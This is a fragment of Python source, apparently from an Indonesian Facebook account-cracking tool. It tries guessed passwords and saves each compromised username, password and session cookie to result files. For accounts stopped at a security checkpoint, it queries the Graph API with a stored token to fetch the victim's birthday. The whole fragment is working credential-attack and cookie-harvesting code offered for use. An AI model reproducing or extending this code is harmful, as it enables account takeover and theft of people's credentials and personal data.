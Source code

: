						open('OK/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s ◊ %s %s %s ◊ %s \n"%(user,pw,day,month,year,kukis))
						cek_apk(kukis)
						break
					except (KeyError, IOError):
						day = ''
						month = ''
						year = ''
					except:
						pass
					print ('\r %s*———> %s ◊ %s ◊ %s '%(H,user,pw,kukis))
					#os.popen("play-audio dapet.mp3")
					ok.append('%s ◊ %s ◊ %s'%(user,pw,kukis))
					open('OK/%s.txt'%(waktu), 'a').write(' *———> %s ◊ %s ◊ %s\n'%(user,pw,kukis))
					cek_apk(kukis)
					break
				elif 'checkpoint' in ses.cookies.get_dict():
					try:
						romz = open('data/token.txt', 'r').read()
						lahir = requests.get(f"https://graph.facebook.com/{user}?fields=birthday&access_token={romz}").json()['birthday']
						day, month, year = lahir.split('/')
						month = bulan12[month]
						print ('\r %s*———> %s ◊ %s ◊ %s %s %s  '%(K,user,pw,day,month,year))
						#os.popen("play-audio dapet.mp3")
						cp.append("%s ◊ %s ◊ %s %s %s"%(user,pw,day,month,year))
						open('CP/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s ◊ %s %s %s\n"%(user,pw,day,month,year))
						break
					except (KeyError, IOError):
						day = ''
						month = ''
						year = ''
					except:
						pass
					print ('\r %s*———> %s ◊ %s           '%(K,user,pw))
					#os.popen("play-audio dapet.mp3")
					cp.append('%s ◊ %s'%(user,pw))
					open('CP/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s\n"%(user,pw))
					break
				else:
					continue
			loop += 1
		except requests.exceptions.ConnectionError:
			jeda(1)
			loop += 1
			self.mobil(user, manual, **data)

# SELESAI CRACK
ubah_pass = []
pwbaru = []
pwBaru = []
ubahP = []
